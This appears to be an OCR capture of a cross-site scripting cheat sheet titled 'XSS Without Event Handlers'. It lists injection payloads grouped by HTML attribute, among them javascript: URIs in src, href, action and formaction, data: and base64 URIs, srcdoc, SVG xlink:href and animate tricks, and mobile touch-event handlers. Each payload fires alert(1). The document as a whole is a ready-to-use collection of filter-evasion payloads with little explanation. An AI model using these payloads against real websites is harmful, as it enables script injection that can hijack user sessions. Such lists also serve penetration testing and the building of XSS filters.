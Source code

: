XSS Without Event Handlers

data:text/html,<script>alert(1)</script>

data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==

1) (no attribute)

<script>alert(1)</script>

2) src

<script src=javascript:alert(1)>
<iframe src=javascript:alert(1)>
<embed src=javascript:alert(1)> *

3) href

<a href=javascript:alert(1)>click
<math><brute href=javascript:alert(1)>click *

4) action

<form action=javascript:alert(1)><input type=submit>
<isindex action=javascript:alert(1) type=submit value=click> *

5) formaction

<form><button formaction=javascript:alert(1)>click
<form><input formaction=javascript:alert(1) type=submit value=click>
<form><input formaction=javascript:alert(1) type=image value=click>
<form><input formaction=javascript:alert(1) type=image src=http://brutelogic.com.br/webgun/img/youtube1.jpg>
<isindex formaction=javascript:alert(1) type=submit value=click> *

6) data

<object data=javascript:alert(1)> *

7) srcdoc

<iframe srcdoc=%26lt;svg/o%26%23x6Eload%26equals;alert%26lpar;1)%26gt;>

8) xlink:href

<svg><script xlink:href=data:,alert(1)></script>
<svg><script xlink:href=data:,alert(1) /> *
<math><brute xlink:href=javascript:alert(1)>click *

9) from

<svg><a xmlns:xlink=http://www.w3.org/1999/xlink xlink:href=?><circle r=400 /><animate attributeName=xlink:href begin=0 from=javascript:alert(1) to=%26>

Mobile Only

Event Handlers

<html ontouchstart=alert(1)>
<html ontouchend=alert(1)>
<html ontouchmove=alert(1)>
<html ontouchcancel=alert(1)>
<body onorientationchange=alert(1)>
